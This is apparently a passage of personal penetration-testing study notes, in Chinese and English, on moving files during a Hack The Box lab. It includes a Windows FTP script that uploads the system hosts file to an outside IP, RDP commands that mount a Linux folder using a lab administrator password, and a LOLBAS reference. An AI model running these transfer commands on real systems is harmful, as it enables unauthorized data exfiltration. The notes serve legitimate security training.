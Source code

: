 ```cmd-session
C:\htb> echo open 192.168.49.128 > ftpcommand.txt
C:\htb> echo USER anonymous >> ftpcommand.txt
C:\htb> echo binary >> ftpcommand.txt
C:\htb> echo PUT c:\windows\system32\drivers\etc\hosts >> ftpcommand.txt
C:\htb> echo bye >> ftpcommand.txt
C:\htb> ftp -v -n -s:ftpcommand.txt
ftp> open 192.168.49.128

Log in with USER and PASS first.


ftp> USER anonymous
ftp> PUT c:\windows\system32\drivers\etc\hosts
ftp> bye
```
- 上传时用`PUT`





## Misc

### [[WinRM]]


### RDP

**挂载Linux文件夹：**

```shell
# rdesktop
TimeLess613@htb[/htb]$ rdesktop 10.10.10.132 -d HTB -u administrator -p 'Password0@' -r disk:linux='/home/user/rdesktop/files'

# xfreerdp
TimeLess613@htb[/htb]$ xfreerdp /v:10.10.10.132 /d:HTB /u:administrator /p:'Password0@' /drive:linux,/home/plaintext/htb/academy/filetransfer
```

**访问：** Explore输入 `\\tsclient\` 直接访问。




### LOL

> To search for download and upload functions in [LOLBAS](https://lolbas-project.github.io/) we can use `/download` or `/upload`.
